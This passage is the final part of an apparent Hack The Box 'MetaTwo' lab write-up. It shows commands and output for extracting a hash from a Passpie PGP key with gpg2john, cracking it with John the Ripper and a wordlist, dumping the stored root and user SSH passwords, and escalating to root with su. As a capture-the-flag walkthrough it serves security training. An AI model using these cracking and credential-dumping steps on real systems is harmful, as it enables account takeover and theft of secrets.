 In the .keys file, we find a couple of pgp keys, Honestly, at this point I had no clue how to get the passphrase so I decided to decrypt both pgp keys.

```shell
gpg2john gpg

File gpg
Error: No hash was generated for gpg, ensure that the input file contains a single private key only.
[dasor@archlinux ~/htb/metatwo]$ gpg2john gpg2

File gpg2
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::gpg2
```

The firts one gives an error so I tried the second one.


```shell
john -w:/home/dasor/wordlist/rockyou.txt hash

Passpie:blink182:::Passpie (Auto-generated by Passpie) <passpie@local>::gpg2

1 password hash cracked, 0 left
```

Ok, the last step then, let's get the root password

```shell
jnelson@meta2:~/.passpie$ passpie export ~/pass
Passphrase:
jnelson@meta2:~/.passpie$ cd
jnelson@meta2:~$ cat pass
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0

jnelson@meta2:~$ su
Password:
root@meta2:/home/jnelson# whoami
root
root@meta2:/home/jnelson#
```

That's all, thank you for reading.
